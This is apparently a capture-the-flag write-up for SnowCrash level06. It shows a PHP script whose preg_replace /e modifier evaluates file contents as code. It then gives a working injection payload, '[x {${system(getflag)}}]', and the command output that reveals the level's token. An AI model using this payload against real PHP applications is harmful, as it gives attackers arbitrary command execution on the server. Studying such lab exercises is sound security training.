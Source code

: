 # Level06

We have a php code:  

```php
<?php
function y($m) { $m = preg_replace("/\./", " x ", $m); $m = preg_replace("/@/", " y", $m); return $m; }
function x($y, $z) { $a = file_get_contents($y); $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a); $a = preg_replace("/\[/", "(", $a); $a = preg_replace("/\]/", ")", $a); return $a; }
$r = x($argv[1], $argv[2]); print $r;
?>
```

This code get content of file at `argv[1]`. 
So we can try the program:

```bash
level06@SnowCrash:~$ echo "Hello world ! " > /tmp/test
level06@SnowCrash:~$ ./level06 /tmp/test
Hello world !
```

With a lot of research, we have find a security vulnerability in `preg_replace`. In fact, using `/e` is now deprecated.  
Because of the part after `/e` is evaluated as a php code, it is interpreted.  
The 2nd parameters in preg_replace is `y(\"\\2\")`. This corresponds to the second part of the expression `/(\[x (.*)\])`. With research we have find that the 2nd part is `(.*)` and the first is `[x ...]`.  
Our content must be something like: `[x INTERPRETED]` because of must start by `[x` and end by `]`.  

First we have try this content: It's not working:  

```bash
level06@SnowCrash:~$ echo "[x system(ls)]" > /tmp/test
level06@SnowCrash:~$ ./level06 /tmp/test
system(ls)
```

In fact, this variable is called [dynamic variable](https://www.php.net/manual/fr/language.variables.variable.php) because of the content can be determinated by php code.

Our file must be:  
`[x {${system(getflag)}} ]`

# Why ?  

`[x ${system(getflag)}]`
 `${system(getflag)}` is considered as a variable but it's not a valid variable in PHP.


To be interpreted and evaluated as a dynamic variable we must use `[x {${system(getflag)}}]`. The system command will be executed and the result will be the arg of `y` function.  

```bash
./level06 /tmp/ret
PHP Notice:  Use of undefined constant getflag - assumed 'getflag' in /home/user/level06/level06.php(4) : regexp code on line 1
Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub
PHP Notice:  Undefined variable: Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub in /home/user/level06/level06.php(4) : regexp code on line 1
```
